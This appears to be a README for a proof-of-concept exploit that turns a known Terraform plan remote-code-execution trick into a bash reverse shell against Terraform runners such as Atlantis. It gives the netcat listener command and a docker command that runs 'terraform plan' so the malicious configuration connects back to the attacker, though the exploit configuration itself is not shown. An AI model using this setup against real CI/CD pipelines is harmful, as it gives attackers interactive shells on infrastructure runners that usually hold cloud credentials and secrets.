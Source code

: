 
# Overview
Src - https://alex.kaskaso.li/post/terraform-plan-rce

But with bash reverse shell, as on terraform runner

# Testing with atlantis locally

## One terminal tab (either locally or on different host)
```bash
nc -vklp  4242
```

## Second terminal tab (either same host or remote host)

```bash
# `--net=host` is only needed if you want to connect to same host, where docker container is running
# Then in exploit, you need to use as remote address `host.docker.internal` as equivalent to `localhost` pointing from container to its host system
docker run --net=host -v "$(pwd)":/app -it ghcr.io/runatlantis/atlantis bash -c "cd /app; terraform plan"
```


